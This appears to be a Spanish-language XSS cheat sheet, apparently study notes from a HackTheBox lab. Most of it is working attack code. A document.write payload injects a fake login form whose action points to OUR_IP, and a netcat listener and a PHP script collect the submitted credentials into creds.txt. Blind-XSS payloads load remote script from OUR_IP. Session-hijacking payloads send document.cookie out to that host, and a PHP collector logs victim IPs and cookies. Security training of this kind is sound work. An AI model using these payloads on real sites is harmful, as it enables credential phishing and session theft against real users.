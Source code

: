 ## Poc
```html
<script>alert(window.origin)</script>
```

```html
<script>alert(document.cookie)</script>
```

Ez y no usar alert():

```
<script>print()</script>
```
cuando es DOM-based :
```html
<img src="" onerror=alert(window.origin)>
```


## login form injection
todo esto metido en la funcion document.write()
```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

ANTES:
<img width="1067" height="406" alt="image" src="https://github.com/user-attachments/assets/ba8e2d8e-a17f-4d20-bba9-f7b8258ceec5" />


DESPUES:
<img width="1052" height="253" alt="image" src="https://github.com/user-attachments/assets/c19487d1-ee32-4555-94dc-afa0648d9f7f" />


 vemos que tenemos el formulario pero todavía está el formulario antiguo, por ende tenemos que borrar el antiguo formulario,para ello utilizaremos la función `document.getElementById().remove()` y para ver el ID lo veremos en el código html : 
 ```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```

PAYLOAD FINAL:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

Y para recibir las credenciales : 
```shell-session
bonack@htb[/htb]$ sudo nc -lvnp 80
```
alo usar netcat el us soluario que ponga las credenciales le saltará un error , si queremos algo mas realista insertaremos un codigo php que haga que le redirija a la página original de nuevo, el archivo sera `index.php` guardado en ``/tmp/tmpserver/`` . CODIGO:

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

y luego : 

```shell-session
bonack@htb[/htb]$ mkdir /tmp/tmpserver
bonack@htb[/htb]$ cd /tmp/tmpserver
bonack@htb[/htb]$ vi index.php #at this step we wrote our index.php file
bonack@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```
 luego las credenciales se guardarán en un archivo `creds.txt`


## Blind XSS

XSS a una pagina a la que no tenemos acceso

payloads:

```html
<script src=http://OUR_IP></script>

'><script src=http://OUR_IP></script>

"><script src=http://OUR_IP></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>

<script>$.getScript("http://OUR_IP")</script>
```
 y hacer : 
```
 mkdir /tmp/tmpserver
 cd /tmp/tmpserver
 sudo php -S 0.0.0.0:80
```



###  Session Hijacking

solo si las cookies NO son HTTP only

payloads:

`
```javascript
<script>document.location='http://OUR_IP/index.php?c='+document.cookie</script>
<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script> 
```


codigo para ordenar las cookies que encontremos(index.php) : 

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
